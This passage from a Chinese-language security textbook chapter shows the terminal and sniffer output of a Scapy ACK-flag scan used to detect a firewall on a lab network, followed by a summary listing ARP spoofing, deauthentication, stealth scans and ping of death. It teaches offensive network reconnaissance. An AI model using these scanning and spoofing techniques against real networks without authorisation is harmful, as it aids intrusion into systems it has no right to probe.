  ..Finished to send 1 packets.
  ^Z
  [30]+  Stopped                 python ack.py
```

数据包已发送，但未收到响应。您不必担心，因为我们有 Python 嗅探器来检测响应。因此，运行嗅探器，无需在混杂模式下运行，再次发送`ACK`数据包：

```py
  Out-put of sniffer 
   --------Ethernet Frame--------
  desination mac 000c294f8e35
  Source mac 000c292e847a
  -----------IP------------------
  TTL : 128
  Source IP 192.168.0.11
  Destination IP 192.168.0.10
  ---------TCP----------
  Source Port  137
  Destination port  1024
  Flag  04
```

返回包显示`Flag 04`，表示`RST`。这意味着端口未被过滤。

让我们设置防火墙，再次检查`ACK`数据包的响应。现在防火墙设置好了，让我们再次发送数据包。输出结果如下：

```py
  root@Mohit|Raj:/scapy# python ack.py 
  WARNING: No route found for IPv6 destination :: (no default route?)
  Begin emission:
  .Finished to send 1 packets.
```

嗅探器的输出没有显示任何内容，这意味着防火墙存在。

# 总结

在本章的开头，我们了解了嗅探器的概念，以及在网络上使用嗅探器，有时可能会泄露密码和聊天等重大秘密。在今天的世界中，大多数情况下使用交换机，因此您应该知道如何执行主动嗅探。我们还学习了如何组成第四层嗅探器。然后我们学习了如何执行 ARP 欺骗。您应该通过 ARP 欺骗来测试网络，并将您的发现写在报告中。然后，我们研究了使用自定义数据包测试网络的主题。网络解除关联攻击类似于 ARP 缓存中毒攻击，对此也进行了解释。半开放扫描、FIN 扫描和`ACK`标志扫描也是我们提到的特殊扫描类型。最后，解释了与 DDOS 攻击相关的死亡 ping。

在[第 4 章](4.html)、*网络攻击及防范*中，我们将学习网络攻击及网络攻击的防范。******